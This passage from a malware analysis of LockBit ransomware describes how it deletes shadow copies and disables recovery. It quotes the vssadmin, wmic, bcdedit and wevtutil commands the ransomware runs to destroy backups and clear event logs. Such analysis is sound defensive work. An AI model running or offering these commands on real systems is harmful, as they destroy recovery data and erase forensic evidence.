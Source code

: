*Figure 107, 108: Terminating Each Target Process.*

### Deleting Backups

To delete shadow copies, **LockBit** first resolves the following string.

``` rust
/c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
```

Then, it passes the appropriate fields to **ShellExecuteA** to launch that command with **cmd.exe**. This command uses **vssadmin** and **wmic** to delete all shadow copies and **bcdedit** to disable file recovery.

![alt text](/uploads/lockbit109.PNG)

*Figure 109: Launching Cmd.exe Command To Delete Backups Through ShellExecuteA.*

Next, **LockBit** resolves the following stack strings in an array of strings.

``` rust
- /c vssadmin Delete Shadows /All /Quiet
- /c bcdedit /set {default} recoveryenabled No
- /c bcdedit /set {default} bootstatuspolicy ignoreallfailures
- /c wmic SHADOWCOPY /nointeractive
- /c wevtutil cl security
- /c wevtutil cl system
- /c wevtutil cl application
```

Finally, it iterates through this array and calls **CreateProcessA** to launch these commands from **cmd.exe**. Besude the commands already ran before, the **wevtutil** commands clear all events from the security, system, and application logs.

![alt text](/uploads/lockbit110.PNG)